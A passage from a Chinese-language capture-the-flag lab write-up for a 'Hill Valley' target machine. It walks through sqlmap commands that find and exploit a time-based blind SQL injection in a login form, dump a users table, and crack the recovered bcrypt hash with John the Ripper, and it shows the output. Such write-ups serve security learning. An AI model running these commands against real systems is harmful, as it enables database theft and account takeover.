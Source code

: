 访问`http://hillvalley.thl`，发现一个以“时间旅行日志”为主题的登录页面。查看页面源代码，发现一条有趣的西班牙语注释：`<!-- ¡El reloj de la torre no tiene nada que ver! ¿O sí? -->` (钟楼跟这事没关系！真的吗？)，这是靶机主题的暗示。

## 2.2 SQL注入漏洞利用

面对登录框，首先尝试进行SQL注入。使用`sqlmap`工具自动化检测。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://hillvalley.thl/" --batch --forms
...
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
...
```

`sqlmap`确认了`username`参数存在基于时间的SQL盲注。随后，利用此漏洞dump数据库信息。

```bash
# 获取数据库
sqlmap -u "http://hillvalley.thl/" --batch --forms --dbs
# ...
[*] hillvalley
[*] information_schema

# 获取表
sqlmap -u "http://hillvalley.thl/" --batch --forms -D hillvalley --tables
# ...
+-------+
| users |
+-------+

# dump数据
sqlmap -u "http://hillvalley.thl/" --batch --forms -D hillvalley -T users --dump
# ...
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2y$10$.YPplAJvApyzvxjuWXdeHO1lIkolJIq9GzGERgmHqHLi.1/.zGJhy | marty    |
+----+--------------------------------------------------------------+----------+
```

成功获取到用户`marty`的密码哈希。

## 2.3 哈希破解

使用`John the Ripper`和`rockyou.txt`字典对获取的bcrypt哈希进行破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo '$2y$10$.YPplAJvApyzvxjuWXdeHO1lIkolJIq9GzGERgmHqHLi.1/.zGJhy' > hash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...
andromeda        (?)     
...
```
